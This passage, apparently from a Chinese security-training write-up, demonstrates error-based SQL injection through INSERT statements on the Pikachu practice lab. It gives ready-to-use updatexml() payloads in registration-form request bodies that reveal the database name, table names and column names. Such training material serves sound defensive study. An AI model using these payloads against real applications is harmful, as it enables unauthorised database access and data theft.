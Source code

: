 





# 演示案例

## 各种“查询”方式注入测试(报错盲注)

靶场地址：pikachu——SQL注入——“insert/update”注入和“delete”注入

insert、update、delete操作的执行在数据库中的执行一般是没有回显的，如果使用普通的select查询的注入语句带入执行，即使执行成功也得不到返回结果，因此要选择报错注入使其有返回结果。

### insert

insert注入的时候如果通过子查询语句拼接并登录上去在找刚才插入的位置，每次测试都要注册一个帐号，那就比较麻烦了。基于updatexml()、extractvalue()、floor()等构造报错点输出我们想要的数据就比较方便了。对于insert语句一般比较常见类似这种

```sql
insert into USERS（username, passwd,email） values('','','')
```

==想要插入语句的时候可以通过or来构造闭合，比如username填入字段`' or evil_sql or '`, 插入到原句中就可以实现执行恶意语句的效果==

```sql
insert into USERS（username, passwd,email） values('' or evil_sql or','','')
```

pikachu的“insert/update”注入首先是一个账号注册界面，注册时产生的数据库操作一般为insert插入数据，可以在注册的值中插入SQL报错注入语句，注册时进行抓包和改包操作：

通过updatexml()报错,注入语句如下:

#### 报错注入查询数据库名

```sql
username=zhangsan' or updatexml(1,concat(0x7e,database(),0x7e),0) or '&password=zhangsan&sex=man&phonenum=12345678910&email=beijing&add=beijing&submit=submit
```

![](https://img.yatjay.top/md/202203251648881.png)

#### 报错注入查询表名

```sql
username=lisi' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),0) or '&password=zhangsan&sex=man&phonenum=12345678910&email=beijing&add=beijing&submit=submit
```

![](https://img.yatjay.top/md/202203251648755.png)

#### 报错注入查询列名

```sql
username=lisi' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='member'),0x7e),0) or '&password=zhangsan&sex=man&phonenum=12345678910&email=beijing&add=beijing&submit=submit
```
